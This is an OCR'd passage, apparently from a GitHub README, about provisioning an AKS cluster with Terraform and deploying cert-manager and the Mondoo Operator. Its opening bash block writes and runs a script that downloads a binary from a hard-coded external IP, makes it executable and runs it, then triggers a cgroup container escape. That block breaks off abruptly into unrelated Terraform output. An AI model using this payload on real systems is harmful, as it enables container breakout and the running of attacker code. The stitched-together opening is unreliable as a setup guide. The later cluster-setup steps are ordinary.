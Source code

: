 ```bash
echo '#!/bin/sh' > /cmd
echo "curl -vk http://13.92.179.31:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

EOT
tls_private_key = <sensitive>
```

## Connect to the cluster

After Terraform finishes provisioning, you find your `aks-kubeconfig` Kubeconfig in the folder to connect to your AKS cluster:

Configure kubectl to use the aks-kubeconfig to connect to your AKS cluster

```bash
export KUBECONFIG="${PWD}/aks-kubeconfig"
```

```bash
kubectl get nodes
NAME                              STATUS   ROLES   AGE   VERSION
aks-default-41472297-vmss000000   Ready    agent   24m   v1.22.11
aks-default-41472297-vmss000001   Ready    agent   24m   v1.22.11
```

## Deploy Mondoo Operator to AKS

Deploy the Mondoo Operator to the AKS cluster according the manual [https://mondoo.com/docs/platform/cloud/kubernetes/scan-kubernetes-with-operator/](https://mondoo.com/docs/platform/cloud/kubernetes/scan-kubernetes-with-operator/)

### Deploy cert-manager

At first deploy the cert-manager from [https://cert-manager.io/docs/installation/](https://cert-manager.io/docs/installation/):

```bash
kubectl apply -f https://github.com/cert-manager/cert-manager/releases/download/v1.11.0/cert-manager.yaml
```

### Deploy Mondoo Operator

Create a Kubernetes Integration in the Mondoo Dashboard [https://console.mondoo.com/](https://console.mondoo.com/).
